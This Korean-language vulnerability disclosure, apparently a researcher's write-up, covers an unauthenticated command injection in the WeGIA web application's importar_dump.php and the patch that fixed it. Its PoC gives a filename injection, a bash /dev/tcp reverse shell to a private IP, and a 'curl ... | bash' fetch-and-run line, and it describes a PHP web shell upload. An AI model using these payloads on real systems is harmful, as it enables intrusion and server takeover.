






## URL

- https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-xw6w-x28r-2p5c

## Target

- WeGIA application 3.2.15 이하 버전

## Explain

기관을 대상으로 웹 통합 관리 시스템을 제공하는 WeGIA의 application에서 parameter 검증 미흡으로 인한 RCE 취약점이 발생하였습니다.

취약점은 `importar_dump.php` 내부에 아래 구문에서 발생합니다.

```php
$log = shell_exec("mv ". $_FILES["import"]["tmp_name"] . " " . BKP_DIR . $_FILES["import"]["name"]);
```

`shell_exec()` 함수를 통해 `mv` 명령어로 임시 파일을 이동하는 명령을 수행합니다.

여기서 parameter에 대한 검증이 미흡하기 때문에 Command Injection 취약점이 발생합니다. 

추가로 임시 파일을 이동하는 명령이기에 Reverse Shell 사용과 Web Shell 업로드도 가능합니다.

세션 검증 이후 리다이렉션 구문이 존재하나, 실행 종료 프로세스가 존재하지 않습니다.

```php
<?php
if (!isset($_SESSION["usuario"])){
    header("Location: ../../index.php");
}
```

이로 인해 별도의 로그인 과정이 없어도 임의의 코드 실행 및 파일 업로드 공격이 가능합니다.

PoC는 다음과 같습니다.

### 1. OS Command Injection

`sleep 5` 명령을 실행하는 Command Injection을 수행합니다.

`filename`에 `a` 이름으로 함께 담아 전달하면 `sleep 5` 명령이 수행 된 것을 확인 할 수 있습니다.

```
a;sleep 5
```




### 2. Reverse shell 실행

아래와 같이 reverse shell을 빌드합니다.

`bash -i >& /dev/tcp/172.30.137.198/7777 0>&1`

`|`로 bash shell에 전달하면 reverse shell이 실행됩니다. 예시는 아래와 같습니다.

```
a;curl -L <your_page_responses_rev_shell_code> | bash
```




### 3. Web Shell 업로드

Web Shell 업로드는 구현되어 있는 파일 업로드 기능을 이용하여 php Web Shell을 쉽게 업로드 할 수 있습니다.

PoC에서는 `l8BL.php`라는 이름으로 php Web Shell을 업로드했습니다.







해당 취약점은 escapeshellarg() 함수를 통해 command injection에 사용되는 특수 문자에 대해 이스케이프 하도록 보완했습니다.



그리고 exit() 함수를 추가해 세션 검증 이후 종료 구문을 추가하여 보완 했습니다.




## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2025-27140
- https://github.com/LabRedesCefetRJ/WeGIA
